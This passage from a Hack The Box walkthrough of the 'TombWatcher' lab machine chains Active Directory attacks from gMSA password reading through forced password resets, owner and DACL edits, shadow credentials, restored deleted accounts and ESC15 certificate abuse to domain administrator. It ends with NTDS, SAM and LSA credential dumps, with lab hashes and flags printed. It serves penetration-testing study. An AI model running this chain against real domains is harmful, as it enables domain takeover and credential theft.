[+] alfred added to INFRASTRUCTURE
```

### Access Control Entry (ACE) ReadGMSAPassword Abuse

Now `INFRASTRUCTURE` was the next object we marked as `Owned`. Members of this group had the ability of `ReadGMSAPassword` on `Ansible_Dev$`.



Once more we used `NetExec` and the module `--gmsa` to retrieve the `NTLM Hash` of `Ansible_Dev$`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ netexec ldap 10.129.11.5 -u 'alfred' -p 'basketball' --gmsa                                           
LDAP        10.129.11.5     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAPS       10.129.11.5     636    DC01             [+] tombwatcher.htb\alfred:basketball 
LDAPS       10.129.11.5     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.11.5     636    DC01             Account: ansible_dev$         NTLM: 1c37d00093dc2a5f25176bf2d474afdc     PrincipalsAllowedToReadPassword: Infrastructure
```

| NTLM Hash                        |
| -------------------------------- |
| 1c37d00093dc2a5f25176bf2d474afdc |

## Privilege Escalation to Sam

### Access Control Entry (ACE) ForceChangePassword Abuse

After we also marked `Ansible_Dev$` as `Owned` we spotted the capability of `ForceChangePassword` on the user `Sam`.



Back on `BloodyAD` we `changed` the `password` of `Sam` to escalate our privileges even further.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ bloodyAD --host 10.129.11.5 -d tombwatcher.htb -u 'ansible_dev$' -p :1c37d00093dc2a5f25176bf2d474afdc set password 'SAM' 'P@ssword123'
[+] Password changed successfully!
```

## Foothold

### Privilege Escalation to John

#### Access Control Entry (ACE) WriteOwner Abuse

Now `Sam` was also marked as `Owned` and he had `WriteOwner` permissions on `John`.



This `privilege escalation` required a few more steps. First we tarted by setting `Sam` as the new `owner` of `John` by using `impacket-owneredit`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ impacket-owneredit -action 'write' -new-owner 'sam' -target 'john' 'TOMBWATCHER.HTB'/'SAM':'P@ssword123'                               
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!
```

Next `impacket-dacledit` came into play to grant ourselves `FullControl` over `John`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'TOMBWATCHER.HTB'/'SAM':'P@ssword123'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250608-020439.bak
[*] DACL modified successfully!
```

#### Shadow Credentials Attack

The last step required us to execute a successful `Shadow Credentials attack` using `Certipy` to get the `Hash` of `John` which allowed us to finally login on the box and grab the `user.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ certipy-ad shadow auto -username 'SAM@TOMBWATCHER.HTB' -password 'P@ssword123' -account 'john'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: TOMBWATCHER.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'john'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c51d907e-819e-54e2-5b73-195da13ffa29'
[*] Adding Key Credential with device ID 'c51d907e-819e-54e2-5b73-195da13ffa29' to the Key Credentials for 'john'
[*] Successfully added Key Credential with device ID 'c51d907e-819e-54e2-5b73-195da13ffa29' to the Key Credentials for 'john'
[*] Authenticating as 'john' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'john@tombwatcher.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'john.ccache'
[*] Wrote credential cache to 'john.ccache'
[*] Trying to retrieve NT hash for 'john'
[*] Restoring the old Key Credentials for 'john'
[*] Successfully restored the old Key Credentials for 'john'
[*] NT hash for 'john': ad9324754583e3e42b55aad4d3b8d2bf
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i tombwatcher.htb -u 'john' -H ad9324754583e3e42b55aad4d3b8d2bf
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents>
```

## user.txt

```shell
*Evil-WinRM* PS C:\Users\john\Desktop> type user.txt
bf44b7b19a042c17a2e7864e447ec2c5
```

## Enumeration (John)

The permissions of `John` didn't looked very promising for which we headed back to `BloodHound`.

```shell
*Evil-WinRM* PS C:\Users\john\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ==============================================
tombwatcher\john S-1-5-21-1392491010-1358638721-2126982587-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

There we figured out that `John` had `GenericAll` set on the `Organizational Unit (OU)` of `ADCS`.



## Privilege Escalation to Administrator

### Access Control Entry (ACE) GenericAll Abuse

#### Active Directory Tombstones

We tried to figure out what options we had with the `GenericAll` permissions over `ADCS` and therefore started with `Certipy`. Unfortunately we couldn't find any vulnerable template.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ certipy-ad find -username 'john@tombwatcher.htb' -hashes ad9324754583e3e42b55aad4d3b8d2bf -dc-ip 10.129.11.5  -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates
```

However, we expected that our way to `Administrator` was through `Active Directory Certificate Services (AD CS) abuse`. In preparation we added the name of the `CA` to our `/etc/hosts` file and moved on.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.11.5     tombwatcher.htb
10.129.11.5     dc01.tombwatcher.htb
10.129.11.5     tombwatcher-CA-1
```

We went back to our session in `Evil-WinRM` and started searching for `Active Directory Tombstones` aka `deleted objects` in the `Active Directory`. We found `3` deleted `objects` called `cert_admin` which pointed very clearly to `AD CS`.

```shell
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
ObjectClass       : user
ObjectGUID        : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
ObjectClass       : user
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
ObjectClass       : user
ObjectGUID        : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```

The next step was a bit of `trial and error` until we found the right object to `restore`.

```shell
*Evil-WinRM* PS C:\Users\john\Documents> Restore-ADObject -Identity '938182c3-bf0b-410a-9aaa-45c8e1a02ebf'
```

After we had restored it, we quickly verified that our command had worked.

```shell
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
ObjectClass       : user
ObjectGUID        : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
ObjectClass       : user
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b35
```

Since the user `cert_admin` was freshly restored he had no `password` set which we were luckily able to do using `BloodyAD` once more.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ bloodyAD --host 10.129.11.5 -d tombwatcher.htb -u 'john' -p :ad9324754583e3e42b55aad4d3b8d2bf set password 'cert_admin' 'P@ssword123!'
[+] Password changed successfully!
```

Now with the new user `cert_admin` and his new `password` in our pockets we fire up `Certipy` once again and this time it showed us that the `CA` was vulnerable for `ESC15`!

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ certipy-ad find -username 'cert_admin@tombwatcher.htb' -p 'P@ssword123!' -dc-ip 10.129.11.5 -vulnerable -stdout                       
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```

### Active Directory Certificate Services (AD CS) Abuse

#### ESC15: Arbitrary Application Policy Injection in V1 Templates (CVE-2024-49019 "EKUwu")

##### Scenario A: Direct Impersonation via Schannel (Injecting "Client Authentication" Application Policy)

Thanks to `Oliver Lyak` all of the abuse techniques are very well documented and so we could just follow the steps in his `Wiki`.

- [https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu)

We requested a `certificate` for `Administrator` in order to `authenticate` and to exfil the corresponding `Hash`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'P@ssword123!' -dc-ip '10.129.11.5' -target 'dc01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'Administrator' -sid 'S-1-5-21-...-500' -application-policies 'Client Authentication'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 3
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate object SID is 'S-1-5-21-...-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

But the `certificate` was not allowed to `login` with. So we switched to plan B which was to drop a `LDAP Shell`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.11.5 -domain tombwatcher.htb -ldap-shell
Certipy v5.0.2 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Connecting to 'ldaps://10.129.11.5:636'
[*] Authenticated to '10.129.11.5' as: 'u:TOMBWATCHER\\Administrator'
Type help for list of commands

#
```

From inside the `LDAP Shell` we changed the `password` of `Administrator` and logged in via `Evil-WinRM` to grab the `root.txt`.

```shell
# change_password Administrator P@ssword123!
Got User DN: CN=Administrator,CN=Users,DC=tombwatcher,DC=htb
Attempting to set new password of: P@ssword123!
Password changed successfully!
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i tombwatcher.htb -u 'administrator' -p 'P@ssword123!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

##### Scenario B: PKINIT/Kerberos Impersonation via Enrollment Agent Abuse (Injecting "Certificate Request Agent" Application Policy)

Since we noticed pretty fast that `Scenario A` was not working on a reliable way in shared and sometimes even VIP instances, we tried to work our way to Administrator by abusing `Scenario B`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ certipy-ad req -target tombwatcher.htb -u 'cert_admin' -p 'P@ssword123!' -ca 'tombwatcher-CA-1' -template 'WebServer' -application-policies 'Certificate Request Agent'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: tombwatcher.htb.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'cert_admin.pfx'
[*] Wrote certificate and private key to 'cert_admin.pfx'
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ certipy-ad req -target tombwatcher.htb -dc-ip 10.129.200.23 -u 'cert_admin' -p 'P@ssword123!' -ca 'tombwatcher-CA-1' -template 'User' -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@tombwatcher.htb'
[*] Certificate object SID is 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ certipy-ad auth -dc-ip 10.129.200.23 -pfx 'administrator.pfx'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@tombwatcher.htb'
[*]     Security Extension SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Using principal: 'administrator@tombwatcher.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404eeaad3b435b51404ee:f61db423bebe3328d33af26741afe5fc
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i tombwatcher.htb -u 'administrator' -H 'f61db423bebe3328d33af26741afe5fc' 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b8385bf0d225f9a95d4b35d634b34203
```

## Post Exploitation

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.200.23 -u 'administrator' -H 'f61db423bebe3328d33af26741afe5fc' --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.129.200.23   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.129.200.23   445    DC01             [+] tombwatcher.htb\administrator:f61db423bebe3328d33af26741afe5fc (Pwn3d!)
SMB         10.129.200.23   445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.200.23   445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:f61db423bebe3328d33af26741afe5fc:::
SMB         10.129.200.23   445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.200.23   445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:964accf7288128f78f8638bbc42f6456:::
SMB         10.129.200.23   445    DC01             Henry:1103:aad3b435b51404eeaad3b435b51404ee:2f3b5dd61cd9784435ee12a93c93fa6c:::
SMB         10.129.200.23   445    DC01             Alfred:1104:aad3b435b51404eeaad3b435b51404ee:cf5fd610b326e61f175e3a9bac4751f9:::
SMB         10.129.200.23   445    DC01             sam:1105:aad3b435b51404eeaad3b435b51404ee:cb8a428385459087a76793010d60f5dc:::
SMB         10.129.200.23   445    DC01             john:1106:aad3b435b51404eeaad3b435b51404ee:ad9324754583e3e42b55aad4d3b8d2bf:::
SMB         10.129.200.23   445    DC01             cert_admin:1111:aad3b435b51404eeaad3b435b51404ee:c5f2d015f316018f6405522825689ffe:::
SMB         10.129.200.23   445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:ca045fb171f8b565d6e772b0a75c6f5f:::
SMB         10.129.200.23   445    DC01             ansible_dev$:1108:aad3b435b51404eeaad3b435b51404ee:4b21348ca4a9edff9689cdf75cbda439:::
SMB         10.129.200.23   445    DC01             [+] Dumped 10 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_10.129.200.23_2025-07-02_144917.ntds of which 8 were added to the database
```

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump 'TOMBWATCHER.HTB/DC01$'@dc01.tombwatcher.htb -hashes :ca045fb171f8b565d6e772b0a75c6f5f
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c5f2d015f316018f6405522825689ffe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:964accf7288128f78f8638bbc42f6456:::
Henry:1103:aad3b435b51404eeaad3b435b51404ee:2f3b5dd61cd9784435ee12a93c93fa6c:::
Alfred:1104:aad3b435b51404eeaad3b435b51404ee:cf5fd610b326e61f175e3a9bac4751f9:::
sam:1105:aad3b435b51404eeaad3b435b51404ee:cb8a428385459087a76793010d60f5dc:::
john:1106:aad3b435b51404eeaad3b435b51404ee:ad9324754583e3e42b55aad4d3b8d2bf:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:ca045fb171f8b565d6e772b0a75c6f5f:::
ansible_dev$:1108:aad3b435b51404eeaad3b435b51404ee:1c37d00093dc2a5f25176bf2d474afdc:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:a7dd51bf2823bf311ee6db3b2c6395aa2225abea7dd150bc613a09264842e6f8
Administrator:aes128-cts-hmac-sha1-96:1cbd6be9481b6c5f054c10511b12c74d
Administrator:des-cbc-md5:6220bccd75982391
krbtgt:aes256-cts-hmac-sha1-96:8f542c56a5377012c49cca51cd05da37aeca080e9060e7609c64df6294e78e28
krbtgt:aes128-cts-hmac-sha1-96:ab84d027f672bb33d571a81d763db4c1
krbtgt:des-cbc-md5:f84cf26e672c1902
Henry:aes256-cts-hmac-sha1-96:311aa3cc0fd80d729d93e5e1a536583e00a2602e6ad1da923912cbafd800cb7c
Henry:aes128-cts-hmac-sha1-96:259d254eb2541b0d3db69ebd3dee4695
Henry:des-cbc-md5:199bda8040cb2f89
Alfred:aes256-cts-hmac-sha1-96:d9ff146302951a37f31e63517856f229c6cbde76dc3ee3199d05991fdc4054bb
Alfred:aes128-cts-hmac-sha1-96:e8ffe7e17a148309e41267647f1b051d
Alfred:des-cbc-md5:f27052ab5b7ffd08
sam:aes256-cts-hmac-sha1-96:be2fd89f6930cb161294e14e0ff34e6fd3733247eb9fd853b1dc9726a1ecae99
sam:aes128-cts-hmac-sha1-96:89e63f3592131dc225210933ede87cbc
sam:des-cbc-md5:d370106b1510386d
john:aes256-cts-hmac-sha1-96:7db39419a586707f178cf5185597047589931429ea46bfb11813c86cab6136df
john:aes128-cts-hmac-sha1-96:d5b228c8638ca4c4c8e5d697082fe901
john:des-cbc-md5:43b9fef783ad8038
DC01$:aes256-cts-hmac-sha1-96:4bac22380dd160bce1048a092662b825f716276f16d64a88225895b9c34eecc3
DC01$:aes128-cts-hmac-sha1-96:2859bbfd267207104cdc068c1aaf19c8
DC01$:des-cbc-md5:37983b293e585251
ansible_dev$:aes256-cts-hmac-sha1-96:526688ad2b7ead7566b70184c518ef665cc4c0215a1d634ef5f5bcda6543b5b3
ansible_dev$:aes128-cts-hmac-sha1-96:91366223f82cd8d39b0e767f0061fd9a
ansible_dev$:des-cbc-md5:8fc40dd9f4d62916
[*] Cleaning up...
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.200.23 -u 'administrator' -H 'f61db423bebe3328d33af26741afe5fc' --sam --lsa --dpapi
SMB         10.129.200.23   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.129.200.23   445    DC01             [+] tombwatcher.htb\administrator:f61db423bebe3328d33af26741afe5fc (Pwn3d!)
SMB         10.129.200.23   445    DC01             [*] Dumping SAM hashes
SMB         10.129.200.23   445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:d51fbf710c21b8e3dabc9ecca56ae12f:::
SMB         10.129.200.23   445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.200.23   445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[14:53:28] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                   regsecrets.py:436
SMB         10.129.200.23   445    DC01             [+] Added 3 SAM hashes to the database
SMB         10.129.200.23   445    DC01             [+] Dumping LSA secrets
SMB         10.129.200.23   445    DC01             TOMBWATCHER\DC01$:aes256-cts-hmac-sha1-96:4bac22380dd160bce1048a092662b825f716276f16d64a88225895b9c34eecc3
SMB         10.129.200.23   445    DC01             TOMBWATCHER\DC01$:aes128-cts-hmac-sha1-96:2859bbfd267207104cdc068c1aaf19c8
SMB         10.129.200.23   445    DC01             TOMBWATCHER\DC01$:des-cbc-md5:e3bf0edc25082504
